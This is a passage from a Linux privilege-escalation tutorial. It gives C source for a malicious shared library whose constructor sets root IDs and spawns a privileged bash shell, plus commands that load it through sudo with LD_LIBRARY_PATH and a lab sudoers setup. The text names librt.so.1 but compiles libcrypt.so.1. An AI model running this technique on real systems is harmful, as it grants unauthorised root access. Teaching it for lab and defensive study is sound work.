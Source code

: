 We have several, but in this case we are going to use the shared library called **librt.so.1**. We create a malicious payload:

{% code title="library_path.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```
{% endcode %}

We compile it (the output must be the same name as the original shared library):

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /tmp/library_path.c
# Execute:
sudo LD_LIBRARY_PATH=/tmp /usr/bin/find
```
{% endtab %}

{% tab title="Lab Setup" %}
### Example with user "user"

1. Open **/etc/sudoers** file by typing `visudo`
2. Now give some sudo rights to a user, in our case "user" will be members of sudoers:

{% code title="/etc/sudoers" %}
```bash
Defaults        env_reset
Defaults env_keep+=LD_PRELOAD # Add this
Defaults env_keep+=LD_LIBRARY_PATH # Add this

...

#includedir /etc/sudoers.d
user ALL = (root) NOPASSWD: /usr/sbin/ioftp # Add this
user ALL = (root) NOPASSWD: /usr/bin/find # Add this
user ALL = (root) NOPASSWD: /usr/sbin/apache2 # Add this
```
{% endcode %}
{% endtab %}
{% endtabs %}

### #3. ld.so.conf and ldconfig

The `/etc/ld.so.conf` file indicates where the configuration files are loaded from, where the latter contain the path to find the shared libraries. Normally, this file contains the following path:
